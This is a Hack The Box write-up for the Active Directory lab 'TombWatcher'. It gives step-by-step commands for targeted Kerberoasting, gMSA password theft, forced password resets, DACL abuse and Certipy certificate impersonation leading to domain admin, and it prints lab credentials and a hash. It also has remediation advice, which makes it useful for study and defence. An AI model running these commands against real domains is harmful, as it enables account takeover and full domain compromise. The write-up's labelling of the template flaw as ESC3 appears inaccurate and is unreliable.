# TombWatcher — Hack The Box

<p align="left">
  
</p>

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Medium |
| **OS** | Windows (Active Directory) |
| **Key techniques** | `WriteSPN` → targeted Kerberoast, `AddSelf` → group membership, **gMSA `ReadGMSAPassword`**, `ForceChangePassword`, `WriteOwner` → `GenericAll`, `dacledit` on OU, AD CS **ESC3** |

---

## TL;DR

TombWatcher is one long ACL chain — starting from a single credential
Henry got at the door, ending at Domain Admin via AD CS ESC3. Every
edge is one `bloodyAD` command:

1. **`henry:H3nry_987TGV!`** has `WriteSPN` on **`alfred`**. Set an
   SPN on Alfred, targeted-Kerberoast him, crack the hash → `alfred:basketball`.
2. **`alfred`** has `AddSelf` on group **`INFRASTRUCTURE`**. Add
   himself → group now includes Alfred.
3. **`INFRASTRUCTURE`** has `ReadGMSAPassword` on **`ANSIBLE_DEV$`**
   (a gMSA). Dump the managed password → NT hash for the machine
   account.
4. **`ANSIBLE_DEV$`** has `ForceChangePassword` on **`sam`**. Reset
   Sam's password to something I know.
5. **`sam`** has `WriteOwner` on **`john`**. Set self as owner →
   grant self `GenericAll` → reset John's password.
6. **`john`** has `GenericAll` on the **`OU=ADCS`** container. Use
   `impacket-dacledit` to write a full-control ACE for John on the OU,
   then Certipy discovers the vulnerable **User** template (ESC3) and
   requests a **Domain Admin certificate**. PKINIT logs in and I read
   `root.txt`.

Every step is one BloodHound edge; the whole box is a demonstration
that a chain of *low-risk-looking* ACL grants can equal Domain Admin.

---

## Recon

Given credentials for `henry` — assumed-breach starting position.

```bash
nmap -p- --min-rate=5000 -oA tombwatcher 10.10.11.72
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sCV -oA tombwatcher-scripts 10.10.11.72
```



Standard AD/DC signature: **DNS, Kerberos, RPC, SMB, LDAP, LDAPS,
Global Catalog, WinRM, .NET Remoting**. Domain `TOMBWATCHER.HTB`, host
`dc01.tombwatcher.htb`. Added both to `/etc/hosts` and moved on.

---

## BloodHound — the whole map in one shot

With Henry's creds I pulled the full graph:

```bash
bloodhound-python -u henry -p 'H3nry_987TGV!' -d tombwatcher.htb \
  -c All -ns 10.10.11.72
```



Marking `henry@TOMBWATCHER.HTB` as **Owned** and running *Shortest
paths from owned* lit up a single, long, elegant chain:

```
HENRY → alfred → INFRASTRUCTURE → ANSIBLE_DEV$ → sam → john → OU=ADCS
```

Six edges, six primitives, one write-up:

- `WriteSPN` (Henry → Alfred)
- `AddSelf` (Alfred → INFRASTRUCTURE group)
- `ReadGMSAPassword` (INFRASTRUCTURE → ANSIBLE_DEV$ gMSA)
- `ForceChangePassword` (ANSIBLE_DEV$ → sam)
- `WriteOwner` + `GenericAll` (sam → john)
- `GenericAll` (john → OU=ADCS container)

**`bloodyAD` is the workhorse for the whole thing** — one binary, one
DC connection, every edge is `add …` / `set …` / `get …`:



---

## Step 1 — `WriteSPN` → targeted Kerberoast on Alfred

BloodHound: `HENRY@TOMBWATCHER.HTB` → **`WriteSPN`** →
`ALFRED@TOMBWATCHER.HTB`.



**`WriteSPN`** lets Henry set a `servicePrincipalName` value on
Alfred's user object. Any user with an SPN is Kerberoastable — I can
request a service ticket for that SPN and the ticket is encrypted
with Alfred's NT hash, which I can crack offline. `targetedKerberoast.py`
automates set-SPN + roast + clean-up in one call:

```bash
python3 targetedKerberoast.py -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'
```



Hashcat + rockyou (mode `13100` for Kerberos 5 TGS-REP RC4):

```bash
hashcat -m 13100 alfred.hash /usr/share/wordlists/rockyou.txt --force
```



`alfred:basketball`. Confirmed:

```bash
nxc smb 10.10.11.72 -u alfred -p 'basketball'
```

---

## Step 2 — `AddSelf` → INFRASTRUCTURE group

Alfred has an `AddSelf` right on the `INFRASTRUCTURE` group.
BloodHound shows all outbound edges from Alfred:



Add himself:

```bash
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u alfred -p basketball add groupMember INFRASTRUCTURE Alfred
```



Instant re-login and my group memberships include INFRASTRUCTURE.

---

## Step 3 — `ReadGMSAPassword` on `ANSIBLE_DEV$`

**`INFRASTRUCTURE`** is on the `PrincipalsAllowedToRetrieveManagedPassword`
list for the gMSA **`ANSIBLE_DEV$`**. That's the whole point of a
gMSA — the DC generates the current password from `msDS-ManagedPasswordId`
and hands it out to whoever the "allowed" attribute names. As of
now, that includes Alfred.


`bloodyAD get object` with the `msDS-ManagedPassword` attribute
returns the blob; the tool decodes it into the NT hash for me:

```bash
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u alfred -p basketball get object 'ANSIBLE_DEV$' --attr msDS-ManagedPassword
```


Hash: `3eca34dd13a85db79c03178b7b149621`. That is now a
Pass-the-Hash-able credential for the `ANSIBLE_DEV$` machine account.

---

## Step 4 — `ForceChangePassword` sam

`ANSIBLE_DEV$` has **`ForceChangePassword`** on `sam` — the
"User-Force-Change-Password" extended right, which lets a principal
set a new password on a target user **without knowing the old one**.


`bloodyAD set password` from a Pass-the-Hash session (note the `:` in
front of the hash):

```bash
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u 'ANSIBLE_DEV$' -p ':3eca34dd13a85db79c03178b7b149621' \
  set password sam 'password'
```


Ethical note: same as with any real ACL abuse — you're stomping a
real user's credential. Fine on retired HTB, coordinate a window on
a client engagement and put it back afterwards.

---

## Step 5 — `WriteOwner` → `GenericAll` → reset John

`sam` has **`WriteOwner`** on `john`. `WriteOwner` lets me set myself
as the owner of the target object; the object's owner *always* has
the right to modify its DACL, so from there I grant myself
`GenericAll` and reset the password.



Three `bloodyAD` calls, one per step:

```bash
# 1. take ownership
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u sam -p password set owner john sam

# 2. grant self GenericAll
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u sam -p password add genericAll john sam

# 3. reset password
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u sam -p password set password john 'password'
```





Kerberos wants a synced clock — quick sanity check before the WinRM /
RDP login:



RDP as John:

```bash
xfreerdp /u:john /p:password /v:10.10.11.72 +clipboard /dynamic-resolution
```



`user.txt` is on John's desktop:



---

## Step 6 — `GenericAll` on `OU=ADCS` → AD CS ESC3

John has **`GenericAll`** on the **`OU=ADCS,DC=TOMBWATCHER,DC=HTB`**
container. `GenericAll` on an OU doesn't automatically apply to its
child objects — but it does let me write a new ACE on the container,
and if that ACE is *inheritable*, it flows down to the objects
inside, including the CA and the certificate templates.



`impacket-dacledit` does that in one command — write a `FullControl`
ACE for John on the OU, `-inheritance` so it flows down:

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -inheritance \
  -principal 'JOHN' \
  -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' \
  'tombwatcher.htb'/'JOHN':'password'
```

John now effectively controls every template and the CA config
inside the ADCS OU. **Certipy** discovers the vulnerable template:

```bash
certipy find -u 'john@tombwatcher.htb' -p 'password' -dc-ip 10.10.11.72 -vulnerable
```



The **`User`** template is a textbook **ESC3** setup: Client
Authentication + `SubjectAltRequireUpn`, enrollable by Domain
Users, and User Enrollable Principals include Domain Users too. Any
domain user can request one — and thanks to the SAN, they can pick
whose UPN they want it for.



Request the certificate for **`Administrator`** via ESC3:

```bash
certipy req -u 'john@tombwatcher.htb' -p 'password' \
  -target dc01.tombwatcher.htb -ca 'tombwatcher-CA-1' \
  -template 'User' -upn 'administrator@tombwatcher.htb' \
  -dc-ip 10.10.11.72
```



PKINIT authenticate as Administrator with the cert:

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72
```



That returns the Administrator TGT **and** the account's NT hash
(from PAC_CREDENTIAL_INFO). From there `evil-winrm` or
`impacket-psexec` on `dc01` reads `root.txt`.

---

## Lessons Learned

- **A chain of "low-risk" ACL grants can compound to Domain Admin.**
  Every single edge on TombWatcher would be graded "should not happen
  in production but doesn't matter on its own" by a lot of teams.
  Chained, they equal DA.
- **`WriteSPN` is a first-class Kerberoast primitive.** Any account
  with that right on a user with a crackable password is a targeted
  Kerberoast waiting to happen. `targetedKerberoast.py` is the
  reflex tool.
- **gMSA are password-reset primitives, not just service accounts.**
  If a low-priv group is on `PrincipalsAllowedToRetrieveManagedPassword`,
  every member of that group can pull the current password and use
  the machine-account rights the gMSA holds. Audit that attribute
  everywhere.
- **`WriteOwner` = `GenericAll` in two extra steps.** BloodHound
  treats them as separate primitives but the abuse is the same: take
  ownership, grant yourself the rights you actually want, use them.
- **`dacledit` on a container is often more powerful than on a
  single object** — an `-inheritance` write on an OU applies to
  everything inside, and if the OU holds AD CS templates, you're one
  Certipy request away from Domain Admin.
- **AD CS ESC3 is quiet.** No password reset, no group change, no
  new SPN. Just a certificate request that looks legitimate. If your
  CA doesn't log template requests to a SIEM, you won't see it.

---

## Remediation

- **Audit `WriteSPN`** across the whole domain. There is no
  legitimate reason for a normal user to be able to set an SPN on
  another user. It is almost always a legacy delegation.
- **Move service accounts to gMSA or MSA** — but restrict
  `msDS-GroupMSAMembership` to the specific service account, not a
  wide administrative group. Any group on that attribute inherits
  Pass-the-Hash-able credential material.
- **Alert on `AddSelf` to any privileged group.** Even more importantly,
  alert on membership changes to groups that appear on any gMSA
  `PrincipalsAllowedToRetrieveManagedPassword` attribute.
- **Do not leave `WriteOwner`/`GenericAll`/`ForceChangePassword` on
  Tier-0 users.** Enforce a Tier-0 forest boundary: no Tier-1/2
  principal has any of these rights on a Tier-0 account, ever.
- **Container-level `GenericAll` is a delegation smell** — especially
  on the AD CS OU. Move templates out of any OU that has non-Tier-0
  ACL delegations, or replace the delegation with a JIT/PIM workflow.
- **Enable AD CS ESC-* mitigations**: set `msPKI-Certificate-Name-Flag`
  to disallow `SubjectAltRequireUpn`, or require Manager Approval on
  User-Auth templates. Monitor the CA event log for template requests
  where the SAN's UPN doesn't match the requesting user.

---

## Tools used

- `nmap`
- `bloodhound-python` + BloodHound GUI
- `bloodyAD` — the workhorse of this box
- `targetedKerberoast.py`
- `hashcat` (mode 13100)
- `impacket-dacledit`
- **Certipy** (`find`, `req`, `auth`)
- `xfreerdp`, `evil-winrm`
---

**Live version:** [read this write-up on my blog](https://debasjan.github.io/writeups/tombwatcher/)
